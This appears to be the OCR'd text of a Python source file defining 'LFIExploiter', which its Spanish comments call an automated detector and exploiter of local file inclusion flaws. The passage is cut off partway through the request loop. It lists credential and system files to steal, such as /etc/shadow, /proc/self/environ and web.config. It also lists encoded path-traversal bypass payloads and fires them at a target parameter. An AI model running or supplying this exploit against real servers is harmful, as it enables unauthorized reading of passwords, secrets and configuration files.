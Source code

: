 ```python
import requests
import base64
import threading
import time
from urllib.parse import urlencode, quote
import concurrent.futures

class LFIExploiter:
    """
    Detector y explotador automatizado de vulnerabilidades LFI
    """
  
    def __init__(self, base_url, vulnerable_param):
        self.base_url = base_url
        self.param = vulnerable_param
        self.session = requests.Session()
  
        # Payloads de prueba comunes
        self.linux_files = [
            '/etc/passwd',
            '/etc/shadow', 
            '/etc/hosts',
            '/proc/version',
            '/proc/self/environ',
            '/var/log/apache2/access.log',
            '/var/log/apache2/error.log',
            '/var/www/html/config.php'
        ]
  
        self.windows_files = [
            'C:\\Windows\\win.ini',
            'C:\\Windows\\system32\\drivers\\etc\\hosts',
            'C:\\boot.ini',
            'C:\\inetpub\\wwwroot\\web.config'
        ]
  
        # Técnicas de bypass
        self.traversal_payloads = [
            '../' * 6,
            '..\\' * 6,
            '%2e%2e%2f' * 6,
            '%252e%252e%252f' * 6,
            '....//....//....//....//....//..../',
            '%c0%ae%c0%ae%c0%af' * 6
        ]
  
    def test_basic_lfi(self, target_files):
        """
        Prueba LFI básico con archivos objetivo
        """
        vulnerable_files = []
  
        for target_file in target_files:
            for traversal in self.traversal_payloads:
                payload = traversal + target_file.lstrip('/')
          
                try:
                    response = self.session.get(
                        self.base_url,
                        params={self.param: payload},
                        timeout=10
                    )
              
```